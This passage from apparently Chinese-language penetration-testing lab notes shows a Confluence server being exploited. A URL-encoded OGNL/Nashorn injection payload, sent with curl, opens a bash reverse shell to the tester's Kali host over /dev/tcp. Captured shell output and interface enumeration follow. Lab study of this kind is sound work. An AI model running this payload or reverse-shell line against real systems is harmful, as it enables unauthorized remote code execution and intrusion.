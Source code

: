 #### 1. 將 payload 改成符合我們的環境
(Kali)
```
┌──(chw㉿CHW)-[~]
└─$ ip a                        
...
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 192.168.45.182/24 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::98aa:d7b6:2ab1:44a3/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever
                      
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 5678
listening on [any] 5678 ...
```
> 目標機器： `192.168.228.63:8090`
> 自己的 kali ip: `192.168.45.182`

```
┌──(chw㉿CHW)-[~]
└─$ curl http://192.168.228.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.182/5678%200%3E%261%27%29.start%28%29%22%29%7D/
```
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 5678
listening on [any] 5678 ...
connect to [192.168.45.182] from (UNKNOWN) [192.168.228.63] 33550
bash: cannot set terminal process group (2566): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
confluence@confluence01:/opt/atlassian/confluence/bin$ 
```
> 成功執行 Reverse shell

#### 2. enumeration 機器設定
成功執行 Reverse shell 後，首先 enumeration CONFLUENCE01
##### 2.1 確認 network interface
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:ab:b0:50 brd ff:ff:ff:ff:ff:ff
    inet 192.168.228.63/24 brd 192.168.228.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:ab:59:55 brd ff:ff:ff:ff:ff:ff
    inet 10.4.228.63/24 brd 10.4.228.255 scope global ens224
       valid_lft forever preferred_lft forever
```
> `ens192`（連到 WAN）：192.168.228.63\
`ens224`（連到內部 DMZ）：10.4.228.63